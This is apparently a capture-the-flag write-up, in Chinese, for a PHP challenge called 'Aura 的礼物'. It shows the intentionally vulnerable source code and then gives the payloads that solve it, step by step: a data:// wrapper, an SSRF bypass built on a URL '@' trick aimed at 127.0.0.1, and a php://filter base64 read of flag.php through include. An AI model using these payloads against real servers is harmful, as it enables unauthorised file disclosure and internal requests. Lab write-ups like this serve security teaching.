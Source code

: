 ### Aura 的礼物

---

> 这个题还是比较有意思的

```php
<?php
highlight_file(__FILE__);
// Aura 酱，欢迎回家~
// 这里有一份礼物，请你签收一下哟~
$pen = $_POST['pen'];
if (file_get_contents($pen) !== 'Aura')
{
    die('这是 Aura 的礼物，你不是 Aura！');
}

// 礼物收到啦，接下来要去博客里面写下感想哦~
$challenge = $_POST['challenge'];
if (strpos($challenge, 'http://jasmineaura.github.io') !== 0)
{
    die('这不是 Aura 的博客！');
}

$blog_content = file_get_contents($challenge);
if (strpos($blog_content, '已经收到Kengwang的礼物啦') === false)
{
    die('请去博客里面写下感想哦~');
}

// 嘿嘿，接下来要拆开礼物啦，悄悄告诉你，礼物在 flag.php 里面哦~
$gift = $_POST['gift'];
include($gift);
```

#### 第一步

利用data协议：

```
pen=data://text/plain,Aura
```

#### 第二步

我们来分析一下

```php
$challenge = $_POST['challenge'];
if (strpos($challenge, 'http://jasmineaura.github.io') !== 0)
{
    die('这不是 Aura 的博客！');
}

$blog_content = file_get_contents($challenge);
if (strpos($blog_content, '已经收到Kengwang的礼物啦') === false)
{
    die('请去博客里面写下感想哦~');
```

我们要满足

- 传入值中有`http://jasmineaura.github.io`
- 满足进入页面有`已经收到Kengwang的礼物啦`

这里考到了SSRF,我们直接让他读自己的页面就ok拉

```
challenge=http://jasmineaura.github.io@127.0.0.1
```

> 当然创建一个多级域名网页，网页内容添加`已经收到Kengwang的礼物啦`也是可以的

### 第三步

```
&gift=php://filter/read=convert.base64-encode/resource=flag.php
```



总结:

```
pen=data://text/plain,Aura&challenge=http://jasmineaura.github.io@127.0.0.1&gift=php://filter/read=convert.base64-encode/resource=flag.php
```

